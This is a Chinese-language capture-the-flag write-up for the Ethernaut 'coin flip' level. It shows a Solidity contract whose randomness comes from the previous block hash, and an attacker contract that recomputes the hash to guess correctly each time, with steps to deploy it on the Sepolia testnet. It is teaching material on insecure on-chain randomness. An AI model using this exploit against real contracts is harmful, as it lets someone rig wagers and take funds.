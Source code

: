 # level3 coin flip

## 1. 问题
要求是连续10次调用`CoinFlip`合约的flip函数，每次都需要猜测成功函数的执行结果。

```solidity
contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## 2. 解法

因为合约是白盒，每次执行结果是可预期、可预测的，所以我们的思路就是创建一个合约，然后这个合约每次调用coinflip合约，在调用前，自己执行下同样的计算逻辑，算出来本次合约调用时结果是什么，然后调用flip函数时使用该结果。

因为合约中做了`lastHash`的记录和判断，所以我们如果在一次合约调用时，for循环连续调用flip函数10次，第二次开始，flip中的`lastHash == blockValue`判断就会拒绝执行。

1. 我们编写的合约如下：

```solidity
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract Guess {
    CoinFlip private flip;

    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    constructor(address _flip) {
        // 部署合约时绑定CoinFlip合约
        flip = CoinFlip(_flip);
    }
    
    function run() external {
        
        // 完全模仿flip函数，算一遍预期的正反面结果
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
        // 使用执行的结果调用flip
        bool guessSuccess = flip.flip(side);
        require(guessSuccess, "guess failed");
    }
}
```

2. 将上面的代码放到remix编译

3. 部署，输入CoinFlip合约地址作为入参，remix会唤起metamask[提交交易到sepolia](https://sepolia.etherscan.io/tx/0x5a0344ababcf99673eb4b576e2cb4290838c296332d2174a196b1b70b99ff0da)

4. 我们的Guess合约被部署到：[https://sepolia.etherscan.io/address/0x9cb0fd719a20f7dcc576845217d096614782e8e5](https://sepolia.etherscan.io/address/0x9cb0fd719a20f7dcc576845217d096614782e8e5)

5. 正式开始前，通过ethernaut控制台，确认项当前的次数，确认是0：
```bash
await contract.consecutiveWins().then(v => v.toString())
```

6. 通过remix调用`run`函数：[0xfa434890083a128c93e92046c938eec58040ced7bf050cdb0dd6f8bdd5370d7d](https://sepolia.etherscan.io/tx/0xfa434890083a128c93e92046c938eec58040ced7bf050cdb0dd6f8bdd5370d7d)

7. 通过ethernaut控制台，确认项当前的次数，确认已经更新到1了

8. 重复执行9次

9. 点击 `submit instance`， 提交通过！
